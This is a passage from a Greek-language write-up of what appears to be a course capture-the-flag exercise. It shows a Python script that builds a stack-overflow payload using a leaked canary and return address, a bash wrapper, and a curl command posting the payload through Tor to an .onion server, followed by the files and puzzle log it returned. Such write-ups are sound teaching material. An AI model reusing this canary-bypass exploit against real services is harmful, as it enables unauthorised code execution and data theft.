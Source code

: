 ```
for i in range(0,9):
    data += bytes.fromhex(canaryaddress[2:])[::-1]

data += bytes.fromhex(canary[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[8:16],16)))[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[16:24],16)))[2:])[::-1]
data += bytes.fromhex(str(hex(int(last40[24:32],16)))[2:])[::-1]
data += bytes.fromhex(returnaddress[2:])[::-1]
data += bytes.fromhex(single_pointer[2:])[::-1]
data += bytes.fromhex(single_pointer[2:])[::-1]

print(data) 
```
To αποτέλεσμα του script το δίναμε σαν input στο παρακάτω bash script για να τροποποιήσει την έξοδο.
final.sh
```
#!/bin/sh

i=$(python3 call_send_file.py $1)
i=${i:2}
i=${i%?}
echo -en $i 
```
Το αποτέλεσμα του δεύτερου script το χρησιμοποιήσαμε για κάνουμε το ακόλουθο curl.
``bash final.sh 56d4b3103e565a344a0056d3b373565a61800056d4b3103f0156d4b31056d4b34e56d4b34f3e00000000f7aedd49aa0bf900f7c55d80565a5f10ffceb2f8565a3015 | curl --trace -  --socks5-hostname localhost:9050 'zwt6vcp6d5tao7tbe3je6a2q4pwdfqli62ekuhjo55c7pqlet3brutqd.onion/ultimate.html' --http0.9  -X POST -i -H 'Authorization: Basic YWRtaW46Ym9iJ3MgeW91ciB1bmNsZQ=='  -H 'Connection: keep-alive'  --data-binary @- -H 'Content-Length: 0'``
Aυτό δουλεψε και μας επέστρεψε το ακόλουθο
```
 backing up...
index.html
z.log
2021_project1_grades.pdf
bob.sql
playlist
```
Ανοίξαμε τα αρχεία αυτά με τον ίδιο τρόπο που ανοίξαμε και το backup.log αλλάζοντας απλά το string σε αυτό που επιθυμούσαμε. Η απάντηση βρισκόταν στο z.log.
```
Computing, approximate answer: 41.998427123123
...



Plan Z: troll humans who ask stupid questions (real fun).
I told them I need 7.5 million years to compute this XD

In the meanwhile I'm travelling through time trolling humans of the past.
Currently playing this clever dude using primitive hardware, he's good but the
next move is crushing...

1.e4 c6 2.d4 d5 3.Nc3 dxe4 4.Nxe4 Nd7 5.Ng5 Ngf6 6.Bd3 e6 7.N1f3 h6 8.Nxe6 Qe7 9.0-0 fxe6 10.Bg6+ Kd8 11.Bf4 b5 12.a4 Bb7 13.Re1 Nd5 14.Bg3 Kc8 15.axb5 cxb5 16.Qd3 Bc6 17.Bf5 exf5 18.Rxe7 Bxe7

PS. To reach me in the past use the code: "<next move><public IP of this machine>"
```
